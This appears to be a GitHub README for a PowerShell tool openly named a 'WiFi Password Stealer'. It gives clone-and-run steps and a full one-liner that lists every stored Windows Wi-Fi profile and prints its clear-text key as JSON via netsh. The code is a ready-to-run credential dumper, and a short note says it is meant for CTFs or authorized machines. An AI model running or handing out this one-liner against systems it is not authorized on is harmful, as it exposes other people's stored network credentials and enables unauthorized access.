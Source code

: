 # WiFi Password Stealer in PowerShell

This script is made to retrieve **STORED** wifi passwords on a Windows computer. It has been tested on FR and EN computers, you're free to edit the script in order to make it work with your language.

## Prerequisites

- Powershell 5.x / 7.x (Tested on both)

## Usage

1. Clone the repo : 

    ```PowerShell
    > git clone https://github.com/BassoNicolas/Powershell-WiFi-PasswordStealer
    > cd Powershell-WiFi-PasswordStealer
    > . 'WiFiStealer.ps1'  # Do not forget the dot.

2. Or you can simply run it in one-line

    ```Powershell
    [Console]::InputEncoding = [System.Text.Encoding]::UTF8; [Console]::OutputEncoding = [System.Text.Encoding]::UTF8; $c={foreach($l in (netsh wlan show profiles).Split([System.Environment]::NewLine,[System.StringSplitOptions]::RemoveEmptyEntries)){if($l -match "Profil Tous les utilisateurs" -or $l -match "All User Profile"){$f=($l -Split ": ")[-1].Trim();$g=netsh wlan show profile "$f" key=clear;$h="";foreach($m in $g.Split([System.Environment]::NewLine,[System.StringSplitOptions]::RemoveEmptyEntries)){if($m -match "Contenu de la clé" -or $m -match "Key Content"){$h=($m -Split ": ")[-1].Trim();break;}}New-Object PSObject -Property @{Name=$f;Password=$h}}}};Write-Output (&$c)|ConvertTo-Json -Depth 100|ConvertFrom-Json
    ```

## Example
![wifipassword](https://github.com/BassoNicolas/Powershell-WiFi-PasswordStealer/assets/70383324/9b91375d-3b75-49fd-ad7a-23001182f07f)
    
## License

lol

## Note

This is **not** a wifi "cracker".
Use it during CTFs or on authorized machines.
